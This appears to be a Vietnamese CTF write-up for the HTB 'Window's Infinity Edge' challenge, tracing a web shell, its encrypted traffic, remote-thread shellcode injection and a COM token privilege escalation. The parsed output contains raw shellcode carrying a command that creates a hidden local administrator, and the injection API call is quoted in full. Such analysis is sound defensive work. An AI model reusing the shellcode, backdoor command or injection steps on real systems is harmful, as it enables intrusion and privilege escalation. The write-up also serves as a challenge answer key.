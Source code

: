 ```yaml
---
title: HTB Window's Infinity Edge
published: 2025-07-24
description: This is one of challenge which I liked the most of HTB series
tags: [Debugging, Traffic Analysis]
category: Shellcode
draft: false
---
```


# HTB Window's Infinity Edge
>author : kAiZ3n
>Decription : A motivated APT group has breached our company and utilized custom tooling. We've identified the implants on compromised systems and remediated the infection using advanced AntiVirus X. However, one server seems clean but has been exhibiting suspicious traffic. Can you spot something we could have missed while cleaning this system?
## Xử lý file pcap
![image](https://hackmd.io/_uploads/HyUa_qAIlx.png)

- Đầu tiên ta thấy Client gửi request tới server thông qua format multi data và ta thấy client đã Post một file upload.apsx thông qua /upload
tại lúc xử lý file tôi thấy nó sử dụng một Class Assembly.Load() đây được coi là red flag thường được dùng load các mal EXE or DLL
- Tạo môt Instance để runtime trong .NET
- sau đó nó sẽ truyền parameter vào là p and r
- p là dữ liệu người dùng trong requestFrom từ "data"
- r là hardcode 
![payload](https://hackmd.io/_uploads/HJtyO90Lge.jpg)
trích xuất ra file payload.exe check file nhanh với die thì đây là file .NET load vào ILSPY để đọc source
![image](https://hackmd.io/_uploads/S1i4O90Lxx.png)

- RequestForm["data"] là phân vùng bị enc code
- r là password như một hardcode key
- iv = "infinity_edgehtb" (hardcode)
- Attacker sẽ gửi payload ExecRunTime đã bị mã hóa thông qua RequestFrom['data']
- sau đó sẽ dùng key và iv decrypt và thực thi với Invoke
## Decryption Traffic
Check file pcap với các trường data= được gửi trong file shell.apsx
![image](https://hackmd.io/_uploads/rJrB5cCLlg.png)

![image](https://hackmd.io/_uploads/SkUNq9ALex.png)

Đây là script tôi xử lý
![decrypt](https://hackmd.io/_uploads/H1ilcqAUxg.jpg)

## Phân tích Traffic PlainText
Format output trong file Decrypt.bin
![image](https://hackmd.io/_uploads/HJnqq9ALll.png)
Đúng như idea ban đâu mỗi lần Request payload sẽ có một class SharPyShell và func ExecRunTime để Invoke và thực thi trên server theo như logic file NET


### Tiếp theo nó sẽ Drop một tool powershell script dùng để leo quyền (Privilege Escalation)
Spawn một cái powershell 
![payloadshell](https://hackmd.io/_uploads/SJxKCHALee.jpg)


![image](https://hackmd.io/_uploads/ByQU8IpLge.png)
Decrypt payload với base sau đó Xor với key
và chạy tools với các đối số 
Output 
![image](https://hackmd.io/_uploads/SJECLIaIlg.png)


### Xử lý Shellcode
Trong Script được gửi bởi attacker thì có 2 function InjectionShellcodeAsUser và InjectionShellcode

![payloadshell](https://hackmd.io/_uploads/SkyA3BCIxl.jpg)

snapshort ThreadParametes được truyền vào
![image](https://hackmd.io/_uploads/B1wgqGpIle.png)
1. Đăng nhập với user
2. Tạo một Process cmd.exe hoặc nếu Process có sẳn sẽ lấy PID được truyền vào hàm Injection Shellcode 
Mở Handle targetProcessHandle = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, false, processId); đóng vai trò Spawn Host cho DLL
3. Tính size và allocate shellcode vào memory và tính toán offset trong Memory với VirtualAllocA() và ghi shellcode vào vùng nhớ đó trong Process với WriteMemory() 
**IntPtr codeMemAddress = VirtualAllocEx(targetProcessHandle, IntPtr.Zero, codeMemorySize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);**

4. Tạo thread trong tiến trình cmd.exe:
Tạo RemoteThread chạy shellcode tại codeMemAddress, truyền threadParameterAddress vào.

**Đây gọi là kỹ thuật RemoteThread Injection**
**Tương tự cho InjectionShellcode**

### Phân tích shellcode DLL với IDAPro
**Tại điểm này call InjectShellcode với Entry 0x2880**

Chương trình sẽ gọi tới EntryPoint

![image](https://hackmd.io/_uploads/BkVx6B08xl.png)
Chương trình sẽ parser input và truyền vào hàm Juicy với phần payload shellcode
```
ThreadParameter:
    [filepath]\0
    [application_name]\0
    [CLSID]\0
    [port_Source]\0
    [ip_source]\0
    [port Destination]\0
    [ip_Dest]\0
    [Size of Payload Shellcode]\0
    [string_after_number]

```
### Parser ThreadParameter
![code](https://hackmd.io/_uploads/BJYD9BRLel.png)
```
Output:
[+] Parsed Data:
  filepath: C:\Windows\Temp\x1fvogijp5pyzn7\9nu8w1q
  application_name: notepad.exe
  clsid: {4991d34b-80a1-4291-83b6-3328366b9097}
  port_or_id: 48278
  ip_source: 127.0.0.1
  extra_wstring: 135
  copied_ascii: 127.0.0.1
  Juicy Payload size: 402
  juicy_payload: b'\xfcH\x83\xe4\xf0\xe8\xc0\x00\x00\x00AQAPRQVH1\xd2eH\x8bR`H\x8bR\x18H\x8bR H\x8brPH\x0f\xb7JJM1\xc9H1\xc0\xac<a|\x02, A\xc1\xc9\rA\x01\xc1\xe2\xedRAQH\x8bR \x8bB<H\x01\xd0\x8b\x80\x88\x00\x00\x00H\x85\xc0tgH\x01\xd0P\x8bH\x18D\x8b@ I\x01\xd0\xe3VH\xff\xc9A\x8b4\x88H\x01\xd6M1\xc9H1\xc0\xacA\xc1\xc9\rA\x01\xc18\xe0u\xf1L\x03L$\x08E9\xd1u\xd8XD\x8b@$I\x01\xd0fA\x8b\x0cHD\x8b@\x1cI\x01\xd0A\x8b\x04\x88H\x01\xd0AXAX^YZAXAYAZH\x83\xec AR\xff\xe0XAYZH\x8b\x12\xe9W\xff\xff\xff]H\xba\x01\x00\x00\x00\x00\x00\x00\x00H\x8d\x8d\x01\x01\x00\x00A\xba1\x8bo\x87\xff\xd5\xbb\xf0\xb5\xa2VA\xba\xa6\x95\xbd\x9d\xff\xd5H\x83\xc4(<\x06|\n\x80\xfb\xe0u\x05\xbbG\x13roj\x00YA\x89\xda\xff\xd5cmd /c "net user /add admin_infinity ""Password2!"" /Y & net localgroup Administrators admin_infinity /add & echo xGk89_Ew > C:\\xor.k"\x00'
```
trong Hàm Juicy có tạo một Thread với function StartAddress cho việc xử lý Connection Network
và tại hàm Juicy tiếp quy trình Spawn Host Process và Injection Shellcode với **CreateRemoteThread**
![image](https://hackmd.io/_uploads/SJwmASRIll.png)
**Thành phần	Mục đích**
- a1 (CLSID)	Gọi COM trigger để lấy token SYSTEM
- a3, a4 (payload, size)	Shellcode được inject vào process mới
- CoGetInstanceFromIStorage	Trigger đối tượng COM
- CreateProcessWithTokenW / CreateProcessAsUser	Tạo process với token SYSTEM
WriteProcessMemory + CreateRemoteThread	Inject và thực thi payload

**Dấu hiệu tấn công / detection**
- Tạo ILockBytes, IStorage giả.
- Gọi CoGetInstanceFromIStorage với CLSID lạ.
- CreateProcessWithTokenW + VirtualAllocEx + WriteProcessMemory
- CLSID thường là COM hijack hoặc UAC bypass trigger.

Dump shellcode payload juicy ra va dung Floss
![image](https://hackmd.io/_uploads/ryhHZURLgl.png)
### InjectShellcodeAs be called và xử lý với x64dbg
![InjectShellcodeAS](https://hackmd.io/_uploads/Skd2W8CLlx.png)
![image](https://hackmd.io/_uploads/ry_lMU0Lgg.png)
shellcode này có dung tệp C:\xor.k được  tạo từ shellcode juicy payload
tôi sử dụng shcode2.py để convert shellcode.bin to EXE và debug nó trong x64dbg
![image](https://hackmd.io/_uploads/B1axpKAUee.png)
ngay tại điểm đầu code nó đã call một function và ta thấy các giá trị "C:\xor.k được hiển thị"
![image](https://hackmd.io/_uploads/S1Q2pFRUge.png)
Thử debug và chương trình đã bị crash ở vùn đọc file tôi nghĩ do không thể truy cập vùng nhớ lúc đọc file và tôi sẽ cấp quyền cho 2 vùng nhớ [rsp+10] và [rsp+20] sau đó debug tiếp
Tại offset 
```
mov qword ptr ss:[rsp+10h] ,rbx 
```
cấp quyền Write cho phân vùng này của kernel32 để sử dụng WriteFile/ReadFile ghi dữ liệu
![image](https://hackmd.io/_uploads/B1GLmqR8lx.png)
ER-- to ERW--
Tại offset
```
mov qword ptr ss:[rsp+20], r9
```
cấp quyền cho phân vùng r9
![image](https://hackmd.io/_uploads/SyJy4qRLxg.png)
![image](https://hackmd.io/_uploads/r1Sb450Uxe.png)
của .text file shel2.exe cho phép đọc và ghi dữ liệu
Do không có quyền truy cập vùng nhớ file và tôi phải patch nên dữ liệu đọc được sẽ là giá trị rác
![image](https://hackmd.io/_uploads/BJ2erqRLgx.png)

đặt breakpoint ở offset = 00007FF6214B1145
Fix lại giá trị rác của [rsp+161]
```
FF FE 78 00 47 00 6B 00 -> xGk89_Ew
```
vì thế đến đoạn xử lý [rsp+161] được coi là buffer of File tôi sẽ điền value file ở đó
và tiếp tục xor để lấy flag
![image](https://hackmd.io/_uploads/SkTrrqA8xg.png)

PS: Bài này mình thấy khá là nặng về Obfuscation và Reverse Engineering nếu như intend solution không cần phải guessy

